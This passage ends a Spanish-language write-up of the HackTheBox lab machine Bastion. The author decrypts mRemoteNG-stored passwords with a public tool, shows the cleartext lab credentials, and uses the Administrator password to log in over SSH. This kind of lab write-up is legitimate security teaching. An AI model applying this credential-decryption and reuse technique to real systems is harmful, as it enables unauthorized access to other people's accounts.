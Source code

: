 Con una simple búsqueda de `decrypt mremoteng` en la web, obtenemos este recurso que se encarga de esa tarea:

* [https://github.com/haseebT/mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).

Lo clonamos y simplemente debemos pasarle la contraseña encriptada, probemos con la del usuario **Administrator** primero y despues con la de **L4mpje**:

```bash
❱ python3 mRemoteNG-Decrypt/mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="   
Password: thXLHM96BeKL0ER2
```

```bash
❱ python3 mRemoteNG-Decrypt/mremoteng_decrypt.py -s "yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"   
Password: bureaulampje
```

(Es la misma con la que ingresamos por medio de **SSH**).

Perfecto, pues probemos esa contraseña del usuario **Administrator** contra el servicio **SSH**:

```bash
❱ ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password:   
```

Colocamos la contraseña y obtenemos:

![186bash_ssh_adminSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186bash_ssh_adminSH.png)

LISSSSSSSSSSTO, tamos dentroooooooooooo 🚀

Veamos las flags...

![186flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186flags.png)

...

Bonita máquina, bastante juguetona y de enumerar bien, me gusto el tema de las monturas y el tener que jugar con un backup de una máquina virtual, lindo eso...

Bueno bueno, hasta acá hemos llegado, y que el camino los guie hacia la guía del camino :P COMO SIEMPRE!! A romper todo!